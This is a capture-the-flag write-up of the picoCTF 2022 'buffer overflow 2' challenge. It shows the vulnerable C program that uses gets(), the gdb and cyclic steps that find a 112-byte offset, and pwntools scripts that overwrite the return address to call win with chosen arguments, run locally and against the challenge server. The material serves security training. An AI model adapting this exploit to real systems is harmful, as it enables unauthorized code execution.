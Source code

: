 # buffer overflow 2

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 300
Tags: picoCTF 2022, Binary Exploitation, gets, arguments_on_the_stack
Author: SANJAY C / PALASH OSWAL

Description:
Control the return address and arguments

This time you'll need to control the arguments to the function you return to! 
Can you get the flag from this program?

You can view source here. And connect with it using nc saturn.picoctf.net 52580

Hints:
1. Try using GDB to print out the stack once you write to it.
```

## Solution

This challenge is a continuation of the [previous challenge](buffer_overflow_1.md) but with arguments also.

### Analyze the given files

Lets start by looking at the given files. First the C source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Compared to the previous challenge the major differences are:
 - The argument checks in the `win` function
 - No printing of the memory address to help us
 - The slightly larger `BUFSIZE` of `100` bytes.

The `vuln` file is still a 32-bit ELF binary
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped
```

### Manually identifying the offset

Lets create a [de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) that is 200 bytes long.
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ ~/python_venvs/pwntools/bin/cyclic 200 > pattern_200.txt
```

Then we try it out locally to find the offset
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ gdb -q vuln                 
Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) run < pattern_200.txt 
Starting program: /mnt/hgfs/CTFs/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2/vuln < pattern_200.txt
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
(gdb) exit
A debugging session is active.

        Inferior 1 [process 87839] will be killed.

Quit anyway? (y or n) y

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ ~/python_venvs/pwntools/bin/cyclic -l 0x62616164        
112
```
So the offset on the stack to the return address is `112` bytes.

### Get the addess of the win function

Now we need to find out the virtual address of the `win` function.  
This can be done with `objdump` or `gdb`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ objdump -t vuln | grep win
08049296 g     F .text  000000a2              win

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ gdb -batch -ex 'info functions' vuln | grep win
0x08049296  win
```
So the address to `win` is `0x08049296`.

### Write an exploit

Lets write a small exploit in Python with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html)
```python
#!/usr/bin/python

from pwn import *
import sys

offset = 112
padding = b'A'

win = p32(0x08049296)       # Address to win function
dummy = p32(0x42424242)     # Fake return address
arg_1 = p32(0xCAFEF00D)     # Argument 1
arg_2 = p32(0xF00DF00D)     # Argument 2

payload = padding*offset + win + dummy + arg_1 + arg_2
    
sys.stdout.buffer.write(payload)
```
And then we try it out locally
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ echo "picoCTF{fake_flag}" > flag.txt

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ ~/python_venvs/pwntools/bin/python local_exploit.py | ./vuln
Please enter your string: 
���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�4321
picoCTF{fake_flag}
zsh: done                ~/python_venvs/pwntools/bin/python local_exploit.py | 
zsh: segmentation fault  ./vuln
```
It works, but later the program crashes due to un invalid memory address after the `win` function.  
We can ignore this.

### Get the flag

Lets modify the Python script to connect to the server instead
```python
#!/usr/bin/python

from pwn import *

SERVER = 'saturn.picoctf.net'
PORT = 52580

io = remote(SERVER, PORT)

offset = 112
padding = b'A'

win = p32(0x08049296)       # Address to win function
dummy = p32(0x42424242)     # Fake return address
arg_1 = p32(0xCAFEF00D)     # Argument 1
arg_2 = p32(0xF00DF00D)     # Argument 2

payload = padding*offset + win + dummy + arg_1 + arg_2
    
io.sendline(payload)
print(io.recvallS())
io.close()
```

And then we run the script to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_2]
└─$ ~/python_venvs/pwntools/bin/python remote_exploit.py
[+] Opening connection to saturn.picoctf.net on port 52580: Done
[+] Receiving all data: Done (190B)
[*] Closed connection to saturn.picoctf.net port 52580
Please enter your string: 
ð
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [gdb - Linux manual page](https://man7.org/linux/man-pages/man1/gdb.1.html)
- [objdump - Linux manual page](https://man7.org/linux/man-pages/man1/objdump.1.html)
- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
- [Wikipedia - Buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow)
- [Wikipedia - de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
